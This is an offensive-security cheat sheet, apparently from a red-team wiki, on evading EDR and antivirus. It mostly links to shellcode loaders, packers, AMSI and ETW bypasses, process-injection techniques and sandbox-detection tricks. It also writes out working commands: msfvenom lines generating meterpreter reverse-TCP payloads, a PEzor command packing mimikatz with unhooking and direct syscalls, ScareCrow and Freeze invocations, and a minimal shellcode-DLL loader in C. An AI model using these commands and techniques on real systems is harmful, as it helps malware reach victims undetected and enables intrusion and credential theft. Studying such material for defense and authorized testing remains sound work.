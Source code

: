 Evading EDR and AntiVirus
=========================

Status: draft

Date: 2024-11-09 14:48

Tags: 


Manual dropper
--------------

C++
~~~

-  https://blog.securityevaluators.com/creating-av-resistant-malware-part-1-7604b83ea0c0

Automatic dropper
-----------------

-  https://github.com/marcusbotacin/Dropper

Manual loader
-------------

Reminder
~~~~~~~~

1. allocating memory
2. moving shellcode into that memory
3. executing the shellcode

Go
~~

-  https://djnn.sh/what-i-learned-writing-a-loader-in-golang

.. _c-1:

C
~

-  .. code:: c

      #include <iostream>
      #include <Windows.h>

      int main(void) {
        HMODULE hMod = LoadLibrary("shellcode.dll");
        if (hMod == nullptr) {
          cout << "Failed to load shellcode.dll" << endl;
        }

        return 0;
      }

.. _c-2:

C++
~~~

-  https://medium.com/securebit/bypassing-av-through-metasploit-loader-64-bit-9abe55e3e0c8
-  https://github.com/ReversingID/Shellcode-Loader/tree/master/windows

.NET
~~~~

-  https://sevrosecurity.com/2019/05/25/bypass-windows-defender-with-a-simple-shell-loader/

Ruby
~~~~

-  https://blog.king-sabri.net/red-team/how-to-execute-raw-shellcode-using-ruby-on-windows-and-linux

Automatic loader
----------------

C++/C
~~~~~

-  https://github.com/TheD1rkMtr/D1rkLrd
-  https://github.com/NtDallas/Ulfberht
-  https://github.com/vic4key/QLoader
-  https://github.com/xuanxuan0/DripLoader
-  https://github.com/Hagrid29/PELoader
-  https://github.com/icyguider/Shhhloader
-  https://github.com/TheD1rkMtr/Shellcode-Hide
-  https://github.com/ProcessusT/Dictofuscation

.. _c-3:

C
~

-  https://github.com/matro7sh/Selha/blob/main/C/aes-loader-stageless.c
-  https://github.com/cribdragg3r/Alaris
-  https://github.com/trustedsec/COFFLoader
-  https://github.com/stephenfewer/ReflectiveDLLInjection
-  https://github.com/Cracked5pider/KaynLdr
-  https://github.com/mgeeky/ElusiveMice
-  https://github.com/boku7/BokuLoader

Nim
~~~

-  https://github.com/aeverj/NimShellCodeLoader
-  https://github.com/sh3d0ww01f/nim_shellloader
-  https://github.com/S3cur3Th1sSh1t/Nim-RunPE
-  https://github.com/xl00t/yetAnotherNimCrypt

.. _go-1:

Go
~~

-  https://github.com/matro7sh/myph
-  https://github.com/matro7sh/221b
-  https://github.com/EddieIvan01/gld
-  https://github.com/zha0gongz1/DesertFox
-  https://github.com/Ne0nd0g/go-shellcode
-  https://github.com/f1zm0/hades
-  https://github.com/D3Ext/Hooka

Rust
~~~~

-  https://github.com/b1tg/rs_shellcode
-  https://github.com/r4ime/shellcode_loader
-  https://github.com/cr7pt0pl4gu3/Pestilence
-  https://github.com/memN0ps/srdi-rs

Crystal
~~~~~~~

-  https://github.com/js-on/WeaponizeCrystal/blob/main/shellcode_loader/shellcode_loader.cr

Generate shellcode
------------------

msfvenom
~~~~~~~~

-  ``msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f raw``
-  ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f dll``
-  ``msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai '\x00' -i 30 RHOST=10.0.0.68 LPORT=9050 -f c | tr -d '"' | tr -d '\n' | more``

C2 (Cobalt/Havoc what ever)
~~~~~~~~~~~~~~~~~~~~~~~~~~~

ASM
~~~

-  https://nytrosecurity.com/2019/06/30/writing-shellcodes-for-windows-x64/

Hyperion
~~~~~~~~

-  ``wine hyperion.exe /root/payloads/shellter/shellter_putty_reverse_x86.exe``

Manual obfuscation
------------------

Static
~~~~~~

-  Packing

   -  https://pentester.blog/?p=39
   -  https://github.com/frank2/packer-tutorial

-  Polymorph

   -  https://www.exploit-db.com/papers/13874

-  Signature hiding

   -  https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates

-  CFG

   -  ROP

      -  https://improsec.com/tech-blog/bypassing-control-flow-guard-on-windows-10-part-ii

   -  https://joshpitts.medium.com/hooking-control-flow-guard-cfg-for-fun-and-profit-31f951485545
   -  https://citeseerx.ist.psu.edu/document?repid=rep1&type=pdf&doi=ade1cc22ee994c1b353326ae4cedccd29f33b8d0
   -  CFG flattening

      -  http://ac.inf.elte.hu/Vol_030_2009/003.pdf

-  Change logo/icon

   -  https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/resources?redirectedfrom=MSDN

-  Change date of compilation
-  Bypass AMSI

   -  https://rastamouse.me/memory-patching-amsi-bypass/
   -  https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
   -  https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/

-  Description
-  Add signature

   -  https://gist.github.com/jenaye/a0132882fed7072ea2bce33da40e0de5

dynamic
~~~~~~~

-  Network

   -  C2 by DNS
   -  P2P (hide ip from C2)
   -  HTTPS

-  Direct syscalls

   -  https://medium.com/@merasor07/av-edr-evasion-using-direct-system-calls-user-mode-vs-kernel-mode-fad2fdfed01a
   -  https://thewover.github.io/Dynamic-Invoke/

-  Delayed execution

   -  WaitForSingleObjectEx

      -  https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html

   -  Foliage
   -  Ekko

      -  A small sleep obfuscation technique that uses
         CreateTimerQueueTimer Win32 API

   -  Deathsleep

      -  https://github.com/janoglezcampos/DeathSleep

-  Disable ETW

   -  https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/

-  DInvoke

   -  https://github.com/TheWover/DInvoke

Automatic obfuscation
---------------------

.. _static-1:

Static
~~~~~~

-  Packing

   -  Office macro

      -  https://github.com/sevagas/macro_pack
      -  https://github.com/optiv/Ivy

   -  https://github.com/phra/PEzor
   -  https://github.com/klezVirus/inceptor
   -  https://github.com/govolution/avet
   -  https://github.com/Nariod/RustPacker
   -  https://github.com/DavidBuchanan314/monomorph
   -  https://github.com/upx/upx
   -  https://github.com/EgeBalci/sgn

-  AMSI Bypass

   -  https://github.com/CCob/SharpBlock
   -  https://github.com/danielbohannon/Invoke-Obfuscation
   -  https://github.com/klezVirus/Chameleon
   -  https://github.com/tokyoneon/Chimera

-  Signature hiding

   -  https://github.com/optiv/ScareCrow

      -  ``ScareCrow -I /Path/To/ShellCode -d facebook.com``

   -  https://github.com/paranoidninja/CarbonCopy

-  LOLBIN

   -  RemComSvc

      -  https://gist.github.com/snovvcrash/123945e8f06c7182769846265637fedb

-  Entropy

   -  https://github.com/kleiton0x00/Shelltropy

.. _dynamic-1:

Dynamic
~~~~~~~

-  Disable ETW

   -  https://github.com/optiv/ScareCrow
   -  https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32
   -  https://github.com/Soledge/BlockEtw
   -  https://github.com/CCob/SharpBlock

-  Indirect syscall

   -  https://github.com/optiv/Freeze

      -  ``Freeze -I /PathToShellcode -encrypt -sandbox -o packed.exe``

   -  https://github.com/phra/PEzor

      -  ``PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=120 mimikatz/x64/mimikatz.exe -z 2``

   -  https://github.com/optiv/ScareCrow
   -  https://github.com/klezVirus/SysWhispers3
   -  https://github.com/jthuraisamy/SysWhispers2

-  Disable AV

   -  https://github.com/APTortellini/unDefender

-  Block DLL
-  https://github.com/CCob/SharpBlock
-  Detect virtual machines
-  https://github.com/a0rtega/pafish

Process injection
-----------------

CRT
~~~

-  with suspended
-  https://damonmohammadbagher.medium.com/bypassing-anti-virus-by-creating-remote-thread-into-target-process-45f145b2ac7a

APC (Asyncronous Procedure Call)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  https://subscription.packtpub.com/book/security/9781789610789/8/ch08lvl1sec50/executing-the-inject-code-using-apc-queuing
-  https://github.com/LloydLabs/ntqueueapcthreadex-ntdll-gadget-injection
-  https://decoded.avast.io/janvojtesek/raspberry-robins-roshtyak-a-little-lesson-in-trickery/

Process hollowing
~~~~~~~~~~~~~~~~~

-  https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation
-  https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/
-  https://0xsp.com/security%20research%20%20development%20srd/defeat-the-castle-bypass-av-advanced-xdr-solutions/
-  https://github.com/0xsp-SRD/mortar
-  https://www.blackhat.com/docs/asia-17/materials/asia-17-KA-What-Malware-Authors-Don't-Want-You-To-Know-Evasive-Hollow-Process-Injection-wp.pdf

Thread execution hijacking
~~~~~~~~~~~~~~~~~~~~~~~~~~

-  https://attack.mitre.org/techniques/T1055/003/

PSC (Ptrace System Calls)
~~~~~~~~~~~~~~~~~~~~~~~~~

Process Doppelganging
~~~~~~~~~~~~~~~~~~~~~

-  https://thehackernews.com/2017/12/malware-process-doppelganging.html

Dll injection
~~~~~~~~~~~~~

-  Reflective dll injection

   -  https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html

-  https://github.com/fancycode/MemoryModule
-  https://github.com/TheD1rkMtr/NTDLLReflection
-  https://github.com/reveng007/ReflectiveNtdll

https://www.ired.team/offensive-security/code-injection-process-injection/dll-injection
- DLL Sideloading & Proxying -
https://book.hacktricks.xyz/windows-hardening/windows-av-bypass#dll-sideloading-and-proxying

RWX
~~~

-  You put your region in RW, you write your shellcode, then you
   reprotect in RX, then you run the thread. This way your region is
   never in rwx

COM Hijack
~~~~~~~~~~

-  https://www.mdsec.co.uk/2022/04/process-injection-via-component-object-model-com-irundowndocallback/
-  https://0xpat.github.io/Abusing_COM_Objects/

Remote thread
~~~~~~~~~~~~~

-  https://www.cyberbit.com/blog/endpoint-security/malware-mitigation-when-direct-system-calls-are-used/

User APC
~~~~~~~~

-  https://www.cyberbit.com/endpoint-security/malware-mitigation-when-direct-system-calls-are-used/

Detect virtual machines (Sandbox)
---------------------------------

Software
~~~~~~~~

-  Count processus number

   -  if >=40 its probably not a VM

-  User interaction

   -  Send MessageBoxW

-  Check for internet
-  Datetime on compilation
-  Check for Computer name

   -  VM = DESKTOP-[0-9A-Z]{7}

Hardware
~~~~~~~~

-  CPUID timing

   -  https://github.com/matro7sh/bof-collection/blob/main/src/checkVM/checkVM2.c

-  Typical user workstation has a processor with at least 2 cores, a
   minimum of 2 GB of RAM and a 100 GB hard drive

OSX
~~~

-  https://evasions.checkpoint.com/techniques/macos.html#macos-sandbox-methods

Tools
~~~~~

-  https://github.com/a0rtega/pafish

From PE to shellcode
--------------------

-  https://github.com/S4ntiagoP/donut/tree/syscalls
-  https://github.com/hasherezade/pe_to_shellcode
-  https://github.com/monoxgas/sRDI

From .exe (build with .net) to .exe hidden
------------------------------------------

-  https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0

From alive beacon
-----------------

Havoc
~~~~~

-  dotnet (object file)

Cobalt
~~~~~~

-  BoF (Beacon object file)

   -  From .net to BoF

      -  https://github.com/CCob/BOF.NET

   -  https://github.com/trustedsec/CS-Situational-Awareness-BOF

Extensions
----------

Dll
~~~

Exe
~~~

Hta
~~~

Cpl
~~~

Link
~~~~

Crédits
-------

-  `@Jenaye_fr <https://twitter.com/Jenaye_fr>`__
-  `LeDocteurDesBits <https://github.com/LeDocteurDesBits>`__
-  `michmich1000 <https://github.com/michmich1000>`__
-  `@Zabannn <https://twitter.com/Zabannn>`__
-  `@noraj_rawsec <https://twitter.com/noraj_rawsec>`__
-  `@lapinousexy <https://github.com/lap1nou>`__
-  `@djnn <https://github.com/bogdzn>`__

Pro tips : A shellcode going through 3 open-source packers will have more chance to get detected than a manual obfuscation
--------------------------------------------------------------------------------------------------------------------------
